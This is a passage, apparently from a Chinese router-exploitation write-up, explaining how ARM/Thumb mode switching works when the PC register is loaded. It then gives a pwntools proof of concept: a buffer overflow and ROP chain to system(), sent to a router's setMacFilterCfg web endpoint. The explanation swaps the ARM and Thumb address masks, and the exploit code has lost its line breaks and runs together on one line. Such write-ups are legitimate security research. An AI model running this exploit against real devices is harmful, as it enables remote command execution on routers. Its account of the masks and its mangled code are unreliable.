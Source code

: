 T=0 → ARM模式（指令地址对齐到4字节）  
  
T=1 → Thumb模式（指令地址对齐到2字节）  
  
1. 关键机制：  
  
当通过LDR/STACK POP等操作修改PC寄存器时：  
  
- PC寄存器写入的地址值最低位（LSB）会被复制到CPSR的T位  
  
- 实际PC值 = 写入值 & 0xFFFFFFFE（ARM模式）或 & 0xFFFFFFFC（Thumb）  
  
1. 漏洞利用中的处理：  
  
假设我们想跳转到0x08041234执行Thumb指令：  
  
- 必须构造地址为0x08041234 + 1 = 0x08041235  
  
- 当该值被加载到PC时：  
  
PC = 0x08041234（自动清除LSB）  
  
CPSR.T = 1（进入Thumb模式）  
  
整理后我们的POC为：  
```
from pwn import *import requestscmd = b"echo PWN!"libc_base = 0x3fd9c000system_addr = libc_base + 0x5A270gadget1_addr = libc_base + 0x18298gadget2_addr = libc_base + 0x40cb8payload = b'a'*176payload+= p32(gadget1_addr) + p32(system_addr) + p32(gadget2_addr) + cmdurl = "http://192.168.50.18/goform/setMacFilterCfg"cookie = {"Cookie":"password=asdasddsada"}data = {"macFilterType": "black", "deviceList": b"\r" + payload}response = requests.post(url, cookies=cookie, data=data)print(response.text)
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qXbmFE2wB53zJOPb8XmrzicaHC97PVLKgtDuYmMhFZRLmo3D2Jb0z3m5LxrFNeXaUXjqB2rsiapicjzBCEuiabBDfw/640?wx_fmt=png&from=appmsg "")  
  
  
